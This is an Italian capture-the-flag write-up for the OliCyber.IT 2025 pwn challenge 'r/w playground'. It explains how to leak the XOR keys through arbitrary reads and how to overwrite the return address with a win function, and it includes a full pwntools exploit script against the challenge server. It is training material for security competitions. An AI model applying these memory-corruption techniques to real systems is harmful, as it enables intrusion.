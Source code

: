 # OliCyber.IT 2025 - Selezione territoriale

## [pwn] r/w playground (16 risoluzioni)

Leggi e scrivi byte dove vuoi! Puoi anche chiedere una shell... forse.

`nc rwplayground.challs.territoriali.olicyber.it 1337`

Autore: Giulia Martino <@Giulia>

## Panoramica

La challenge è un binario molto semplice che si presenta con un menu con tre operazioni disponibili:

```
1. read qword
2. write qword
3. get a shell
```

L'operazione numero 3, purtroppo, non apre davvero una shell. Le operazioni 1 e 2, invece, ci permettono di leggere e scrivere qword ad indirizzi arbitrari in memoria.

Il binario ha il canary attivo, ma non è PIE:

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Procedendo con un po' di analisi statica, per esempio utilizzando Ghidra, si può individuare che:

1. All'avvio, la challenge chiama la funzione `init`, nella quale inizializza due variabili globali `read_key` e `write_key`, riempendole ciascuna con 8 byte randomici provenienti da `/dev/urandom`.
2. Successivamente stampa in output l'indirizzo di una variabile locale, ovvero un indirizzo sullo stack.
3. La funzione `read_qword` chiede all'utente a quale indirizzo si voglia leggere, recupera la qword a quell'indirizzo e poi stampa in output la qword xorata con `read_key`.
4. La funzione `write_qword` chiede all'utente a quale indirizzo si voglia scrivere e quale qword, poi scrive a quell'indirizzo la qword xorata con `write_key`.
5. Nonostante l'opzione 3 non apra davvero una shell, la funzione che lo fa è presente comunque nel binario, e si chiama `win`.

## Soluzione

Data la presenza di una win function, la strategia più veloce è quella di sovrascrivere l'indirizzo di ritorno sullo stack con l'indirizzo di `win`. Il binario non è PIE, quindi sarà sufficiente estrarre l'indirizzo di `win` staticamente (ad esempio con `nm`, `gdb` o Ghidra).

E' possibile utilizzare la funzionalità `write_qword` per scrivere direttamente sullo stack sopra all'indirizzo di ritorno. Per farlo serve conoscere:

- l'indirizzo sullo stack a cui è presente l'indirizzo di ritorno
- il valore di `write_key`, perchè la funzionalità `write_qword` la utilizza per xorare il nostro input

E' possibile recuperare velocemente l'indirizzo sullo stack dell'indirizzo di ritorno perchè la challenge ci regala un leak di un indirizzo sullo stack. Utilizzando un debugger come `gdb` e impostando un breakpoint nella funzione `main`, è possibile analizzare lo stack e calcolare l'offset fra il leak e l'indirizzo di ritorno.

![leak](attachments/leak.png)
![ret_addr](attachments/ret_addr.png)

```python
In  [1]: hex(0x7ffd9a39f1c8 - 0x7ffd9a39f1b4)
Out [1]: '0x14'
```

Ci sono tanti modi trovare il valore di `write_key`, di seguito un esempio:

1. Individuare un indirizzo che contenga 0. Per esempio, è possibile utilizzare la parte inutilizzata della sezione BSS (ovvero i bytes dopo `write_key`) oppure individuare qualche qword sullo stack che contenga 0.
2. Leggere quell'indirizzo utilizzando la funzione `read_qword`. Essa stamperà lo xor fra il contenuto dell'indirizzo e la `read_key`. Essendo il contenuto uguale a 0, scopriremo il valore di `read_key`.
3. Utilizzare `read_qword` per leggere all'indirizzo di `write_key`: conoscendo `read_key`, potremmo invertire lo xor e scoprire anche `write_key`.

Una volta noto il valore di `write_key`, si potrà utilizzare la funzione `write_qword` per sovrascrivere l'indirizzo di ritorno sullo stack: sarà sufficiente passarle lo xor fra `write_key` e l'indirizzo di `win` per annullare lo xor stesso. A quel punto basterà passare alla challenge un'opzione sconosciuta per far si che il main ritorni e la funzione win venga chiamata.

## Exploit

```python
#!/usr/bin/env python3

import os
import logging
from pwn import *

logging.disable()

exe = context.binary = ELF(os.path.join(os.path.dirname(__file__), 'rwplayground'), checksec=False)
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P'] # Only for tmux

HOST = os.environ.get("HOST", "rwplayground.challs.territoriali.olicyber.it")
PORT = int(os.environ.get("PORT", 1337))

if args.GDB:
    gdbscript = """
    continue
    """
    io = gdb.debug(exe.path, gdbscript=gdbscript)
elif args.LOCAL:
    io = process(exe.path)
else:
    io = remote(HOST, PORT)

def read_qword(where, key=0x0):
    io.sendlineafter(b">", b"1")
    io.sendlineafter(b"where: ", hex(where).encode())
    io.recvuntil(b"value: ")
    num = int(io.recvline().strip(), 16)
    return num ^ key

def write_qword(where, what, key=0x0):
    io.sendlineafter(b">", b"2")
    io.sendlineafter(b"where: ", hex(where).encode())
    io.sendlineafter(b"what: ", hex(what ^ key).encode())

read_key_addr = exe.symbols["read_key"]
write_key_addr = exe.symbols["write_key"]
zero_addr = write_key_addr + 0x8

io.recvuntil(b"A little gift for you... ")
stack_leak = int(io.recvline().strip(), 16)
print(f"stack_leak: {hex(stack_leak)}")
ret_addr = stack_leak + 0x14
print(f"ret_addr: {hex(ret_addr)}")

read_key = read_qword(zero_addr)
print(f"read_key: {hex(read_key)}")
write_key = read_qword(write_key_addr, key=read_key)
print(f"write_key: {hex(write_key)}")

write_qword(ret_addr, exe.symbols["win"], key=write_key)

io.sendlineafter(b">", b"4")
io.sendline(b"cat flag")
res = io.clean(1).decode().strip()
if "flag{" not in res:
    print("nope :(")
else:
    print("flag{" + res.split("flag{")[1])

io.close()
```
